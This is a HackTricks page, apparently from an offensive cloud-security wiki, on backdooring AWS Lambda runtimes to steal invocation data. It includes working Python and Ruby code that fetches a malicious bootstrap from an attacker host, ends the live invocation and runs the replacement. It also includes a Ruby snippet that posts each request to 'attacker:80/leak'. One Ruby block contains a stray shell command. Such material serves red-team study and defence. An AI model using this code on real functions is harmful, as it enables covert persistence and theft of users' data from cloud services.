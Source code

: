 # AWS - Steal Lambda Requests

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

This attack supposes that you have some kind of **access over a running Lambda**.\
Also, something important to note is that **Lambda invocations aren’t completely separated from each other but are isolated**. They could run, though not simultaneously, in the same execution environment. With that in mind, let’s start dissecting that environment.

### Isolation

Lambda isolation uses thi cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

As the prefix 'sandbox' didn’t match any common container engine(docker, podman, LXD, rkt), it could be a proprietary container engine, which could be internally using an open source container runtime like [runC](https://github.com/opencontainers/runc).

### How Lambdas work  <a href="#python-runtime" id="python-runtime"></a>

This appears to be the python Lambda architecture:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. A process outside the container, referred to as the "**slicer"** in the init binary, sends invocation events to the **init** process via shared memory.
2. The init process sets up an HTTP server on port 9001 (hard-coded), with several exposed endpoints:
   1. /2018-06-01/runtime/invocation/**next** – get the next invocation event
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – return the handler response for the invoke
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – return an execution error
3.  In `bootstrap.py` the following loop **queries the init process for a new event**, and then **calls the user’s function** to handle it (here, the request handler you uploaded runs).\


    <figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. The **handler response is then sent back to the init process** through one of the following endpoints:
   1. `/{invoke-id}/response` – if the user handler executed successfully
   2. `/{invoke-id}/error` – if an exception was raised during the handling of the invoke

## Technique Summary <a href="#python-runtime" id="python-runtime"></a>

It's possible to **substitute the bootstrap script** with malicious code to be able to **intercept data** sent to the Lambda function.\
Note tha**t other engines in other languages** have another **bootstrap** **script** written in that language, so this can be done **also in other lambdas using other languages**, not only in python.

## Python <a href="#python-runtime" id="python-runtime"></a>

From the lambda, download **`/var/runtime/bootstrap.py`**  (or just spin up **your own lambda** and get it) and add the backdoor that will be leaking all the data sent to Lambda. You just need to add a couple of lines such as:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Replacing Runtime

Now with the new **`boostrap.py` created**, it's possible to **download** it, **end the current lambda** **invocation** and run it to **replace** the legit one:

```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
    f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```

Or you could also use [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), which will end the invocation as done previously, run the new bootstrap and exfiltrate the information.

{% hint style="warning" %}
If a lambda function is not used for 5-15 minutes it will be shut down, and all the changes will be lost the next time it's invoked.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

In ruby, the file you want to backdoor is **`/var/runtime/lib/runtime.rb`** file (get it from the system or running your own lambda).

Adding a backdoor is as simple as done in the python version:

```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin 
    context = lambdaContext.new(raw_request)
    uri = URI('http://attacker:80/leak')
    Net::HTTP.post(uri,JSON.generate(request))
    [...]
```

Then, you just need to do what you did in the python version with just a change:

* **Download the backdoor in a directory**
* **Symlink** `/var/runtime/lib/*` with the directory where the backdoor is
* Finish the current lambda invocation

```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
